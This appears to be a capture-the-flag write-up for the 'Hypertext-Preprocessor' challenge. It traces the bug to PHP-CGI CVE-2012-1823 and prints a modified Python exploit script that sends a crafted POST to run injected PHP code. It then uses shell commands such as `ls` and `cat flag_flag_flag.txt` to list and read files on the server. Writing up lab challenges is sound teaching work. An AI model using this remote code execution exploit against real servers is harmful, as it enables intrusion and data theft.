 # Hypertext-Preprocessor
## Problem
> http://ctfq.sweetduet.info:10080/~q12/

## Solution
### 1. Access The Web Site
First, go to the [site](http://ctfq.sweetduet.info:10080/~q12/).  
It show you the time(?).

### 2. Search That Format
Second search it with Google.

In my case, I found this site.
> [CGI版PHPにリモートからスクリプト実行を許す脆弱性(CVE-2012-1823)
](http://blog.tokumaru.org/2012/05/php-cgi-remote-scripting-cve-2012-1823.html)

Maybe the target site has `CVE-2012-1823`.

### 3. Search PoC of CVE-2012-1823
Search PoC with [Exploit DB](https://www.exploit-db.com/) and, you can get [the PoC](https://www.exploit-db.com/exploits/18836/).
In this time, modification this code like here, and crack site.

### 4. Modification Program
Modification Source is here.
```python
'''This code refer to rayh4c[0x40]80sec[0x2e]com'''

import socket
import sys


# basic infomation
HOST = 'ctfq.sweetduet.info'
PORT = 10080
CODE = 'set php code'

# set HTTP Request
pwn_code = '<?php %s;?>' %  CODE
post_Length = len(pwn_code)

http_raw='''POST /~q12/?-dallow_url_include%%3don+-dauto_prepend_file%%3dphp://input HTTP/1.1
Host: %s:%d
Content-Type: application/x-www-form-urlencoded
Content-Length: %s

%s
''' %(HOST, PORT, post_Length, pwn_code)
print '========== RESPONSE =========='
print http_raw

# send request
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((HOST, int(PORT)))
sock.send(http_raw)
data = sock.recv(10000)
print '========== REQUEST =========='
print repr(data)
sock.close()
```

#### 5. Send Request
##### i. Get File List
Then you may want to get file list.  
So update to substitute `CODE` to ``` echo(`ls`) ```.  
And find `flag_flag_flag.txt`.

##### ii. Get Flag
Finally you may want to get file list.  
So update to substitute `CODE` to ``` echo(`cat flag_flag_flag.txt`) ```.  
And get the flag.
